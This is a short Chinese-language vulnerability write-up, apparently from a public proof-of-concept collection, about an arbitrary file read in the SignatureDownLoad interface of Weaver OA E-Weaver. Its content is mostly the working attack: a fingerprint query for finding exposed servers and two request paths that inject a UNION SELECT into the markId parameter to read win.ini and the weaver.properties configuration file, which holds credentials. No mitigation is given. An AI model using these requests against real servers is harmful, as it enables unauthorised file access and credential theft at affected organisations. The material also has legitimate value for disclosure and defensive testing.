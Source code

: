 # 泛微OA E-Weaver SignatureDownLoad 任意文件读取漏洞

## 漏洞描述

泛微OA E-Weaver SignatureDownLoad接口存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

<a-checkbox checked>泛微OA E-Weaver </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-E-Weaver"</a-checkbox></br>

## 漏洞复现

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656689079056-8b37542f-8e1a-4558-a1b2-d863bbb2a136.png)

验证POC

```php
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27C:/Windows/win.ini%27
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656689121217-b38a805a-342b-48d1-9b86-9655dccef5cd.png)

```php
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27../ecology/WEB-INF/prop/weaver.properties%27
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656689196769-3dd2c9b1-43e6-4677-b0be-b170fba04a4b.png)